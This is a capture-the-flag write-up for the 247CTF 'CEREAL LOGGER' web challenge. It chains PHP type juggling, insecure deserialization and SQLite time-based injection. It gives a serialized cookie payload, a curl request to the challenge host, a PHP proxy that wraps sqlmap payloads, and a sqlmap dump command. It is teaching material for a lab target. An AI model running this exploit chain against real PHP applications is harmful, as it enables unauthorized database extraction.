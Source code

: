 ```yaml
---
title: "Chaining SQLmap with a custom php proxy server | 247CTF"
date: 2024-06-16
categories: [Web Challenges, CEREAL LOGGER]
tags: [Web, CTF] 
---
```


Hi, in this writeup I will solve the new hard challenge `CEREAL LOGGER`, from [247ctf](https://247ctf.com/). I will also explain how I created a simple proxy server between `SQLmap` and the challenge server that can manipulate SQLmap requests.

## Challenge source code analysis
![IMG1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/24a5b14d-3451-4ac3-a4e2-5855c6ce6cfb)

1) class `insert_log` is defined and has a property `new_data` has constant value "Valid access logged!"
and has `__destruct()` methode that create a new SQLite3 database connection using a database file located at `/tmp/log.db` and finally, an SQL query is executed to insert a log message `$this->new_data` into the `log` table of the database.

2) Main Script Logic: 
  - The code check if the cookie named `247` is set for incoming HTTP requests.
  - Split the cookie value at the dot with `explode(".", $_COOKIE["247"])` and Check if the second part of the split value concatenated with a random number between 0 and 247247247 equals the string "0".
  - If the condition is met, it decodes the first part of the cookie value from base64, unserializes it, and writes the result to `/dev/null` (which essentially discards the output).

## Spotting the bugs

- The condition `explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0"` is vulnerable to [Type juggling](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09) because it relies on PHP's type coercion, PHP uses loose comparison (==), which means it will attempt to coerce the types to make the comparison. For example, when comparing a string to a number, PHP will convert the string to a number.
- In the `__destruct()` method vulnerable to SQLi, the SQL query is constructed by directly concatenating the `new_data` property into the SQL statement, but what is `__destruct()` methode ? by asking google: 
![IMG2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3fff93f5-7be6-48c0-ad49-09670eac2244)

- Simple Testing: 
![IMG3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/ddbe1977-a921-4bfd-8c11-d2325a71a75e)

- At this point, we can identify another vulnerability: `insecure deserialization` because the script decode tha first part of the cookie before dot and then unserialize it directly using `unserialize()` function.

## Chaining of bugs 

1) Exoloiting type juggling vulnerability to bypass the if condition.

2) Build a class with same name and properties (Attributes or Variables). 

3) Injecting SQL payload in `new_data` attribute before serializing object and then encode it to base64 encoded data.

## Manuel Exploiting

We can exploit the [Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php) vulnerability by injecting data before a dot and then embedding `0e` after the dot. This allows us to bypass an if condition like `blablabla.0e`, For example, `"0e1234" == "0"` returns true because `0e1234` means `0 * 10^1234` which is zero, so whatever the random number come after e then the condition always returns true.  

In PHP, `0e1234` represents a number in scientific notation, where `0` is the coefficient and `e1234` indicates the exponent. However, because the coefficient is 0, the entire value is simply 0, regardless of the exponent, In scientific notation, the format is generally `n x 10^m`, where n is the coefficient and m is the exponent. In PHP, `0e1234` translates to `0 * 10^1234`, which is still 0.

![IMG4](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/89f5c1eb-c699-4b4c-9b36-fdd59ad3c464)

Now we can create class and try to inject SQL payload like: `0XMohomiester'); select 1 = randomblob(999999999);--`.

Note: The SQLite `randomblob()` function returns a blob containing pseudo-random bytes. The number of bytes is determined by its argument.


![IMG5](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3132b08b-bd51-4666-bc5e-08125625a523)

```php
<?php

class insert_log
{
  // SQLi payload here 
  public $new_data = "0XMohomiester'); select 1 = randomblob(999999999);--";
}
$obj = new insert_log();
// Serializing object 
$a = serialize($obj);
// Base64 encoding of serialized data and concatenate it with .0e 
$final_payload = base64_encode($a) . ".0e";
echo $final_payload;

```

Let's try it :

```shell
time curl -XGET https://a0351f3d2e04038e.247ctf.com/ -b '247=TzoxMDoiaW5zZXJ0X2xvZyI6MTp7czo4OiJuZXdfZGF0YSI7czo1MjoiMFhNb2hvbWllc3RlcicpOyBzZWxlY3QgMSA9IHJhbmRvbWJsb2IoOTk5OTk5OTk5KTstLSI7fQ==.0e'
```

![IMG6](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/645e72aa-4228-4a34-be67-ec1b684e9ac3)

as you can see that the response takes about 1.7 seconds with 502 status code, because we generate long number of bytes in `randomblob()` function, let's try if we created a only one byte: `randomblob(1)` 


![IMG7](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3e431425-c0fe-40aa-9d6e-25c16f4a7b44)

yes!, the time is is about 0.5 seconds now lets try to automate this task.



## Automated Exploitation

We can exploit this bug with sqlmap but we have a some problems here, the first is that the payloads must be serialized in objects and then encode it to clearly exploit the web application and extract flag from database.

we can create a simple local web application act as `proxy server` that manage sqlmap requests and edit on any payload to serialize it and then encode it and send the data to the challange server or instance.

![IMG8](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/e755af36-3dac-45ca-975d-3d84a5f8cd2e)


Here is a simple web application using PHP!

```php
<?php

$payload = $_GET['payload'];

class insert_log
{
    public $new_data;
    public function __construct($payload) {
        $this->new_data = $payload;
    }
}

$object = new insert_log($payload);
// serialize object and encode it.
$final_data = base64_encode(serialize($object));

$data = "$final_data" . ".0e";

$targetUrl = "https://a0351f3d2e04038e.247ctf.com/";

// Initialize cURL session
$ch = curl_init($targetUrl);

// Set cURL options
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

// Set the custom cookie
curl_setopt($ch, CURLOPT_COOKIE, "247=$data");

// Execute the cURL session and get the response
$response = curl_exec($ch);

// Close the cURL session
curl_close($ch);

// Output the response
echo $response;

```

we can deploy php server locally using: 
```shell
php -S 0.0.0.0:80
``` 
using sqlmap command: 
```shell
sqlmap -u "http://127.0.0.1:80/?payload=test" -p "payload" --dbms sqlite --technique=T --dump --level 5 --risk 3 --no-cast  --random-agent
```

Yessss! it works, sqlmap extract table names and data inside this tables: 

![IMG9](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/a3edd081-ee97-4f61-98f1-eac0a6ec8206)


![IMG10](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/6e17f82d-80ff-463e-848a-885b6d671b40)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
